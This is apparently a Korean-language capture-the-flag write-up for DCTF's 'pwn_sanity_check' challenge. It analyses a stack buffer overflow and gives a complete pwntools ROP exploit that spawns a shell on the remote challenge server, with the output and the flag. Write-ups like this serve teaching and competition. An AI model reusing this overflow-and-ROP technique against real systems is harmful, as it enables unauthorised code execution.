 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-19-23-10.png)

첨부파일

[pwn_sanity_check.zip](https://rdmd.readme.io/docs/code-blocks)


# **Write-Up**

main을 확인해보면 0x4007A4에 vuln이라는 함수를 호출한다.

![](images/2022-05-18-19-23-25.png)

vuln함수는 rax에 rbp+s(-0x40)만큼 공간을 확보하고 0x100만큼 문자를 받아들여 overflow가 터진다.

0x40075C에서 rbp+var_4(-0x04)의 값과 0xDEADC0DE와 비교하는 조건문이 있고, 일치한다면 0x400776의 shell이라는 함수를 호출한다.

![](images/2022-05-18-19-23-35.png)

하지만 shell함수로 따라 들어가면 flag를 획득할 만한 무엇인가가 없다.

![](images/2022-05-18-19-23-42.png)

0x400697에서 /bin/sh을 넣어 system함수를 콜하는 부분이 있고, edi, esi값을 rbp+var_4(-0x04), rbp+var_8(-0x08)에 넣고, 이를 0xDEADBEEF와 0x1337C0DE와 비교하여 일치하여야 한다.

![](images/2022-05-18-19-23-51.png)

ROP기법을 사용하여 exploit코드를 작성하면 다음과 같다.

```py
from pwn import *
context(arch='amd64')
p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)

#p = process('./pwn_sanity_check')
e = ELF('./pwn_sanity_check', checksec=False)
r = ROP(e)

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_esi = 0x00400811

payload = b''
payload += b'\x00'*(0x40 + 0x08)
payload += p64(pop_rdi)
payload += p64(0xDEADBEEF)
payload += p64(pop_esi)
payload += p64(0x1337C0DE)
payload += b'\x00'*0x08
payload += p64(0x400697)

p.recvuntil('joke')
p.sendline(payload)
p.interactive()

[Output]
root@ubuntu:~# [+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
[*] Loaded 14 cached gadgets for './pwn_sanity_check'
[*] Switching to interactive mode

will this work?
you made it to win land, no free handouts this time, try harder
one down, one to go!
2/2 bro good job
$ ls -al
total 32
drwxr-xr-x 1 root  root  4096 May 14 01:20 .
drwxr-xr-x 1 root  root  4096 May 14 01:21 ..
-rw-r--r-- 1 root  root    19 May 14 01:20 flag.txt
-rwxr-xr-x 1 pilot pilot 8632 May 14 01:20 pwn_sanity_check
-rw-r--r-- 1 root  root   226 May 14 01:20 startService.sh
################ startService.sh ################
#!/bin/bash
chown pilot:pilot /app/pwn_sanity_check
chmod +x /app/pwn_sanity_check
while true; do
    su pilot -c 'timeout -k 30s 1d socat TCP-LISTEN:7480,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./pwn_sanity_check"'
done
################################################
$ cat flag.txt
dctf{Ju5t_m0v3_0n}
```


# **FLAG**

**dctf{Ju5t_m0v3_0n}**